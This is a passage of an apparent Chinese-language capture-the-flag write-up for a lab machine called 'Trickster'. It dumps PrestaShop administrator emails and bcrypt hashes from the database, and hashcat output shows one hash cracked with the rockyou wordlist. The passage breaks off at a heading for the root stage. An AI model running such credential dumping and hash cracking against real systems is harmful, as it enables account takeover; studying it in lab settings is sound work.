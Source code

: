数据库中可以找到adam的hash。

管理员hash位于ps_employee表中

```
MariaDB [prestashop]> select id_employee,id_profile,email,passwd from ps_employee;
select id_employee,id_profile,email,passwd from ps_employee;
+-------------+------------+---------------------+--------------------------------------------------------------+
| id_employee | id_profile | email               | passwd                                                       |
+-------------+------------+---------------------+--------------------------------------------------------------+
|           1 |          1 | admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C |
|           2 |          2 | james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm |
+-------------+------------+---------------------+--------------------------------------------------------------+
```

### hashcat

james的hash是可以破解的

```
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6y...yunCmm
Time.Started.....: Sun Sep 22 02:36:48 2024 (10 secs)
Time.Estimated...: Sun Sep 22 02:36:58 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3872 H/s (3.30ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 37056/14344385 (0.26%)
Rejected.........: 0/37056 (0.00%)
Restore.Point....: 37040/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-16
Candidate.Engine.: Device Generator
Candidates.#1....: alyssa7 -> Yankees
Hardware.Mon.#1..: Util: 78%

Started: Sun Sep 22 02:36:45 2024
Stopped: Sun Sep 22 02:36:59 2024
```

## root
